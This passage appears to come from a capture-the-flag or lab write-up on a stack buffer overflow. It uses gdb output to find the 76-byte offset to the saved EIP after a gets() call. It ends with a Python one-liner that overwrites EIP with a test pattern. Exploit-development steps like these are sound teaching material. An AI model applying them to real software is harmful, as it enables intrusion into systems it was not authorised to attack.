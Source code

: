 You can see that the function **gets** is called and then the program proceeds to **leave** and **ret**, which are the instructions we can potentially manipulate.

#### 🧭 Inspecting the Stack

Now, let’s examine the stack to find the exact padding:

```asm
(gdb) x/x $eax
0xbffff6f0:	0x080484a0
(gdb) ni
0x08048490 in main ()
(gdb)
0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```

- **$eax** points to **0x080484a0**, which is the address of the next instruction.
- We can see the **saved EIP** in the frame at address **0xbffff73c**.

#### 🧩 Calculating the Padding

To calculate the padding, we compare the addresses of the saved **EIP** and the address at `$esp + 0x10`:

```asm
(gdb) x/x $esp+0x10
0xbffff6f0:	0x41414141
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
```

From the above, we can see that there are **76 bytes of padding** before we can overwrite the saved **EIP** register.

#### 💥 Exploit Preparation: Overwriting the EIP

First, we send an input that overflows the buffer and overwrites the saved **EIP** register:

```asm
run < <(python -c "print('A'*76+'B'*4)")
```
